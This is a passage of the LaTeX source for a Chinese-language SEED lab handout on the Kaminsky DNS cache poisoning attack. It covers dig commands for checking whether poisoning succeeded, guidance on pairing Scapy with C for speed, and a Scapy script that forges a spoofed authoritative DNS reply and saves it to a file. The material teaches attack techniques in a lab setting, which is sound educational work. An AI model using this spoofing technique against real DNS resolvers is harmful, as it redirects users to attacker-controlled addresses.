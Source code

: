 为了验证攻击是否成功，在用户主机上运行以下两条\texttt{dig}命令。在两个响应中，
\texttt{www.example.com}的IP地址应该相同，并且响应应该是在攻击主机的区域文件中配置的内容。


\begin{lstlisting}
// Ask the local DNS server for query
$ dig www.example.com

// Direct request to attacker32 name server
$ dig @ns.attacker32.com www.example.com
\end{lstlisting}
 
请在实验报告中给出你的观察结果(截图)，并解释你认为攻击成功的原因。
特别的，当你第一次运行\texttt{dig}命令时，请使用Wireshark来捕获网络流量，
并指出\texttt{dig}命令触发了哪些数据包。根据数据包追踪来证明你的攻击成功了。





\section{指南} 

为了实现Kaminsky攻击，我们使用Scapy进行数据包欺骗。不幸的是，Python的速度太慢了，Python每秒
生成的数据包太少以至于很难攻击成功。最好的情况是使用C程序，然而这对于许多学生来说颇具挑战，
因为用C构造DNS数据包并非易事。我们开发了一种混合方法，并在课堂上进行了实验。通过这种方法，
可以大大减少学生在编码上花费的时间，因此他们可以将更多的时间用于关注实际攻击的本身。


这个想法是同时利用Scapy和C的优势：Scapy在构建DNS数据包方便比C更方便，但是C速度更快。
因此我们使用Scapy构建伪造的DNS数据包，并将它保存到文件中，接着我们将数据包加载到C程序中。
尽管在Kaminsky攻击过程中，我们需要发送许多不同的DNS数据包，但除了少数字段外，这些数据包几乎相同。
我们可以将Scapy生成的数据包作为基础，找到需要修改地方的偏移量(如传输ID字段)，并直接进行修改。
这比在C中创建整个DNS数据包要简单很多。
进行修改之后，我们使用原始的套接字发送这些数据包。有关这种混合方法的详细信息，请参见SEED书~\cite{seedbook}中
``数据包嗅探和伪造''一章。以下的Scapy程序会创建一个简单的DNS响应数据包，并将其保存在文件中。


\begin{lstlisting}[caption={\texttt{generate\_dns\_reply.py}}]
#!/usr/bin/python3
from scapy.all import *

# Construct DNS header and content
name   = 'twysw.example.com'
Qdsec  = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.1.2.2', ttl=259200)
dns    = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
             qdcount=1, ancount=1, nscount=0, arcount=0, 
             qd=Qdsec, an=Anssec)

# Construct IP, UDP header and complete data packet
ip  = IP(dst='10.0.2.7', src='1.2.3.4', chksum=0)
udp = UDP(dport=33333, sport=53, chksum=0)
pkt = ip/udp/dns

# Save data package to file
with open('ip.bin', 'wb') as f:
  f.write(bytes(pkt))
\end{lstlisting}

